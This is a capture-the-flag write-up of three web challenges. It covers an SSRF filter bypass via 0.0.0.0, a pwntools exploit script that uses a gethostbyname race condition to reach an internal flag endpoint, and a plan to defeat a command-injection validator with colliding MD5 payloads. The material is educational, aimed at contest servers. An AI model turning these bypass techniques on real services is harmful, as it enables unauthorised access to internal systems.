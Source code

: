 
## Web

### rms
* The program didn't check IPv4 `0.0.0.0`.
* `http://0:8000/flag`
* `DrgnS{350aa97f27f497f7bc13}`

### rms-fixed
* `man gehostbyname`: `The functions gethostbyname() and gethostbyaddr() may  return  pointers to  static  data, which may be overwritten by later calls.
* Set up a domain with AAAA record.
* Race condition on ipv4 sockaddr.

```python=
#!/usr/bin/env python
from pwn import *

'''
HTTP/1.0 200 OK
Server: BaseHTTP/0.3 Python/2.7.15+
Date: Sun, 22 Sep 2019 13:10:31 GMT

DrgnS{e9759caf4f2d2b69773c}

'''

y = remote( 'rms-fixed.hackable.software' , 1337 )

def add( url ):
    y.sendlineafter( '[pfvaq]' , 'a' )
    y.sendlineafter( 'url?' , url )

add( 'http://domain:8000/flag' ) # domain with AAAA record

for i in range( 0x10 ):
    add( 'http://127.0.0.1' )
    
y.sendlineafter( '[pfvaq]' , 'v 0' )

y.interactive()
```

### looking glass
In this task, we can send a protobuf to server, the server will check the input won't cause commandline injection and execute it.
However, the validator also has a md5 cache.

The vulnerability is obvious: craft a good/evil pair of payload with same md5.

The first method I tried is chosen prefix collision: Create two payload and add some dummy bytes after to make md5 collision.
However, the input length is limited to 4 blocks. It's computation complexity is about 2^50.
It may be feasible using a single GPU machine, but I solved it in another way before my GPU found the collision.
